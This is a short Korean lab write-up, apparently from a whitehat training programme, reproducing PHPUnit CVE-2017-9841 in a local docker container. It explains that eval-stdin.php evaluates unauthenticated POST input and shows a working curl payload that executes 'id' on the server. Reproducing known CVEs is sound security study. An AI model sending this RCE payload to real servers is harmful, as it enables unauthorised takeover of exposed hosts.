 # PHPUnit/CVE-2017-9841

> 화이트햇 스쿨 3기 - 김수연 (ksuyeon0124@gmail.com)
> 
### CVE 요약

- PHPUnit에 있는 `eval-stdin.php` 파일이 사용자 입력을 그대로 `eval()`로 실행한다.
- 공격자가 POST 요청으로 악성 PHP 코드를 보내 서버에서 실행 가능하다.
- 인증 없이 **원격 코드 실행(RCE)**이 가능해서 서버의 완전 장악이 가능하다.

### 환경 구성

- 아래 커멘드를 입력하여 컨테이너를 올렸다.
    - `docker compose up -d`

### 취약점 실행

- 아래 명령어를 입력해서 이 시스템의 id를 출력해보려고 한다. 이 PHP 코드는 서버에서 **`id` 명령어**를 실행하는 명령어이다.

```bash
curl -X POST http://127.0.0.1:8080/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php -d "<?php system('id'); ?>"
```

- 아래와 같이 정보가 출력되는 것을 확인할 수 있다.

![result](https://github.com/user-attachments/assets/912fee33-a20d-4fdd-aded-b316897f61c9)

### 정리

- 원래는 서버에서 사용자 입력의 실행이 금지되어야 하는데, `eval-stdin.php` 로 인해 실행이 된다. 하여 서버로 `system`의 `id`를 출력하는 명령어를 보냈는데, 그 정보를 그대로 출력하는 것을 확인할 수 있었다.
